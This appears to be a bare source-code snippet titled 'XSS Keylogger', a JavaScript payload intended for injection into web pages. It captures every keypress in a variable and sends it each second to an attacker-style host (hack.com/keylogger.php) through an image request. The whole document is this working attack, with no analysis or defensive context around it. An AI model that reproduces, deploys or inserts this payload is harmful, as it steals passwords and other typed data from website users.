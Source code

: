 
XSS Keylogger
var keys='';
document.onkeypress = function(e) {
  get = window.event?event:e;
  key = get.keyCode?get.keyCode:get.charCode;
  key = String.fromCharCode(key);
  keys+=key;
}
window.setInterval(function(){
  new Image().src = 'http://hack.com/keylogger.php?c='+keys;
  keys = '';
}, 1000);








